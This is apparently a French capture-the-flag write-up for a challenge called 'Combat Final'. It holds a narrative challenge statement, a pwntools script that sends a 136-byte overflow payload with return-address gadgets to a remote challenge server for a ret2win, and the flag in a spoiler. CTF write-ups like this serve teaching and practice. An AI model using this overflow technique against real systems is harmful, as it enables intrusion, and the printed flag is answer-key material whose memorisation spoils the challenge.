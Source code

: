 ## Enoncé

>Les anciens guerriers de Naori croyaient que pour accéder à la connaissance ultime, il fallait vaincre non seulement ses ennemis, mais aussi ses propres faiblesses. Le Combat Final est une épreuve mythique où chaque guerrier doit prouver sa force, son intelligence, et sa maîtrise des arts guerriers. Ce n'est qu'en triomphant de cette épreuve que vous pourrez enfin atteindre le sommet du sanctuaire et révéler le dernier secret.
>
>Vous voilà face à l'ultime épreuve. Vous vous trouvez dans une arène souterraine, éclairée uniquement par des torches vacillantes. Au centre de l'arène se dresse une statue imposante d'un ancien guerrier, l'arme au poing. Une inscription à ses pieds indique :
>
>"Ceux qui osent défier l'esprit du combat doivent être prêts à tout risquer. Le moindre faux mouvement peut vous conduire à la défaite. Préparez-vous, car le combat sera rude."
>
>Pour sortir victorieux de cette épreuve, vous devrez exploiter les faiblesses de l'adversaire. Cette fois, il s'agit de trouver une vulnérabilité cachée dans le code du sanctuaire, représentée par le programme que vous devez maîtriser.
>
>En triomphant de cette épreuve, vous serez reconnu comme un véritable maître du Chemin du Guerrier. Les esprits de Naori vous accorderont leur ultime bénédiction, et vous aurez enfin accès aux secrets cachés depuis des siècles.
>
>Jeune guerrier, ce combat est le plus difficile que vous aurez à affronter, mais c'est aussi le dernier obstacle entre vous et la gloire. Faites preuve de courage, de ruse, et de précision. Que la force des anciens guerriers de Naori soit avec vous dans ce Combat Final.


![combats](combats)
## Résolution


```python
#!/usr/bin/env python3

from pwn import *

#context(arch="amd64", os="linux", endian="little", word_size=64)
exe = context.binary = ELF(args.EXE or 'combats')

p = remote("challenges.hackagou.nc", 5003)

guerrier_addr = 0x4011d8
ret_addr = 0x40101a

payload = b'A' * 136
payload += p64(ret_addr)
payload += p64(guerrier_addr)

p.readuntil(b'> ')
p.sendline(payload)
p.interactive()
```

>[!question]- Spoiler du flag
> OPENNC{L3_GU3RR13r_c0mb47_4v3C_H0nN3uR.}

